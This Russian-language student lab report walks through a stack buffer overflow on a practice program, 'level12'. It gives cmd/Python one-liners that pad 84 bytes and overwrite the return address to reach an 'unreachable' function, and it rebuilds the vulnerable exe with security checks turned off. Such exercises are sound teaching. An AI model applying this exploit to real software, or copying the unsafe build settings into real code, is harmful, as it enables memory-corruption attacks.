

# Отчёт по лабораторной работе №1

_Автор: Лебедев Денис_

## Основное решение

До выхода из main в стеке лежит следующая информация:


Для вызова функции unreachable надо заменить адрес возврата, на адрес функции. Для этого нужно передать 84 байта любых данных и адрес unreachable, записанные в обратном порядке.
В примере адрес равен 0x40100f. Воспользуемся питоном для генерации ввода:

```cmd
for /f "delims=" %a in ('python -c "import sys; sys.stdout.write('A'*84 + '\x0f\x10\x40\x00')"') do level12 %a
```

В результате получим следующий вывод:

```
C:\Users\ld200\Projects\CPlusPlusProjects\level12>level12 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA☼►@
0x40100f
Congratulations, moving to level 13 ...
Microsoft Windows [Version 10.0.19045.6332]
(c) Microsoft Corporation. All rights reserved.

level_13#
```

Это означает, что у нас получилось взломать код.

## Обобщение

Для взламывания программы с рандомным адресом, надо его распарсить в байт форму и развернуть. Опять же воспользуясь питоном, получим следующий скрипт:

```cmd
for /f "delims=" %a in ('level12 123 ^| python -c "import sys; data=sys.stdin.read().strip(); v=int(data,16); payload=b'A'*84 + v.to_bytes(4,'little'); sys.stdout.buffer.write(payload)"') do level12 "%a"
```

В итоге получим вывод, как в прошлый раз.

## Компиляция такого же exe

Для компиляции воспользуемся visual studio. Создадим проект консольного приложения, добавим в него файл [level12.cpp](./lebedev_lab1/lebedev_lab1.cpp) с кодом из архива и файлом [jump_level.h](./lebedev_lab1/jump_level.h) с объявлением функции unreachable. В настройках проекта отключим проверку безопасности, чтобы компилятор разрешил использование `strcpy`, и все оптимизации:



Перейдём в папку [Release](./Release/) и воспользуемся тем же скриптом:

```cmd
for /f "delims=" %a in ('lebedev_lab1 123 ^| python -c "import sys; data=sys.stdin.read().strip(); v=int(data,16); payload=b'A'*84 + v.to_bytes(4,'little'); sys.stdout.buffer.write(payload)"') do lebedev_lab1 "%a"
```

В результате получим ожидаемый вывод:

```cmd
C:\Users\ld200\Projects\CPlusPlusProjects\lebedev_lab1\Release>lebedev_lab1 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ►?"
0x3f1020
Congratulations, moving to level 13 ...
```
